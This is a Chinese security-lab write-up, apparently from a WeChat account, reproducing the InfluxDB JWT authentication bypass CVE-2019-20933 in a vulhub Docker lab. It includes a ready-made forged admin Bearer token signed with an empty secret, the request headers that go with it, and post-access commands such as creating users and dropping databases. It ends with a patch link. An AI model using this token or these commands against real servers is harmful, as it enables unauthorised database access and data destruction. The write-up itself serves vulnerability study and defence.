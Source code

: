 #  InfluxDB JWT未授权漏洞   
BMCel  巢安实验室   2024-10-26 16:30  
  
#### 0x00 漏洞简介  
  
InfluxDB是一款时序数据库，其使用JWT作为鉴权方式。在其1.7.6版本以前，默认设置JWT的认证密钥shared-secret为空字符串，导致攻击者可以伪造任意用户身份在InfluxDB中执行SQL语句。  
  
漏洞原理是1.7.6之前的InfluxDB在services/httpd/handler.go中的身份验证函数中存在身份验证绕过漏洞，因为JWT令牌可能具有空的共享密钥（也被称为共享密钥）。  
#### 0x01 环境启动  
```
cd /root/vulhub-master/influxdb/CVE-2019-20933/
docker-compose build
docker-compose up -d

```  
#### 0x02 漏洞复现  
  
**访问htp://IP:8086/query 查询功能有提示需要登录**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVxvKBicviaicZdUjDy95b0w45EmhwDuZt5eS6Pmvp6AicZ7zouJibqFPaTOw6S13sjcev8txGupQN9Rmuw/640?wx_fmt=png&from=appmsg "")  
  
**抓包发现响应头带有X-Influxdb-Version标志头**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVxvKBicviaicZdUjDy95b0w45EuuzLeGgjpKsAMPraIB4b3C6ycdnneU5ofBJuiaCRJzmoW4VSus7VdTA/640?wx_fmt=png&from=appmsg "")  
  
  
**访问htp://IP:8086/debug/vars 查看系统的服务信息**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVxvKBicviaicZdUjDy95b0w45EDQpwFDTLqEapa1RRfVWamH7AO2qVKIoxDy219qBxxg95PSFdjO8Ycw/640?wx_fmt=png&from=appmsg "")  
  
  
**通过https://jwt.io/#debugger-io 构造绕过身份验证所需的Token:**  
  
```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 4072615314
}

```  
  
  
其中，username代表已存在的用户，exp是时间戳，代表该Token的过期时间，所以需要生成一个未来的时间戳（www.beijing-time.org/shijianchuo/），将secret值置空，得到编码后的Token：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVxvKBicviaicZdUjDy95b0w45E5kbFu6icWzSjZGKDoa4cufFvcSrq1LsXibRaaQPW49hpHzjPpC4g29Lg/640?wx_fmt=png&from=appmsg "")  
  
  
**抓取/query页面的数据包，将请求方式修改为POST，添加以下请求字段：**  
  
```
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo0MDcyNjE1MzE0fQ.mwI2P1j8CIvhxBKFvcyU7TNLBeuFtiUM1mPrKanF1w4

Content-Type: application/x-www-form-urlencoded

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVxvKBicviaicZdUjDy95b0w45EyE2JovMvMjTWdGjGvrwEsr6nEfm31nf7PiaqWzUeOrQ7YktFN9LgiazQ/640?wx_fmt=png&from=appmsg "")  
##### 相关操作命令如下：  
```
show databases	#显示数据库
show measurements		#显示当前数据库中的数据表
show users	#显示用户
create database aaa		#创建aaa数据库
drop database aaa		#删除aaa数据库
show field keys		#显示当前数据中的表的字段
create user aaa with password 'aaa'	#创建aaa:aaa 数据库用户	

```  
  
#### 0x03 修复建议  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://github.com/influxdata/influxdb/commit/761b557315ff9c1642cf3b0e5797cd3d983a24c0  
  
  
真心感觉自己要学习的知识好多，也有好多大神卧虎藏龙、开源分享。作为初学者，我们可能有差距，不论你之前是什么方向，是什么工作，是什么学历，是大学大专中专，亦或是高中初中，只要你喜欢安全，喜欢渗透，就朝着这个目标去努力吧！有差距不可怕，我们需要的是去缩小差距，去战斗，况且这个学习的历程真的很美，安全真的有意思。但切勿去做坏事，我们需要的是白帽子，是维护我们的网络，安全路上共勉。  
  
  
**本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**  
  
****  
**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。公众号内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**  
  
****  
**敲敲小黑板：《刑法》第二百八十五条　【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**  
  
